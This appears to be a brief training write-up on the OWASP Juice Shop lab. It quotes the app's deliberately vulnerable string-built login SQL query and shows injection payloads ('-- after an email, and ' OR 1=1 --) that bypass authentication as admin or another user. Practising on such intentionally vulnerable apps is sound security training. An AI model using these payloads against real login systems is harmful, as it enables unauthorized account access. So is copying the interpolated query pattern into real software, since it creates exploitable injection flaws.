



# Inject the juice

OWASP TOP 10 - Injection

## Practical


Source code query
https://github.com/bkimminich/juice-shop/blob/master/routes/login.js

```
`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${insecurity.hash(req.body.password || '')}' AND deletedAt IS NULL`
```

We can interfere the query by adding `'--`
```
SELECT * FROM Users WHERE email = 'valid@mail.com'--|| ''}' 

```

### Logged in as admin


Repeat in browser



### Logged in as bender




Note:
- When the username/email not known, we could use `' OR 1=1 --`
```
SELECT * FROM Users WHERE email = '' OR 1=1 --|| ''}' 
```
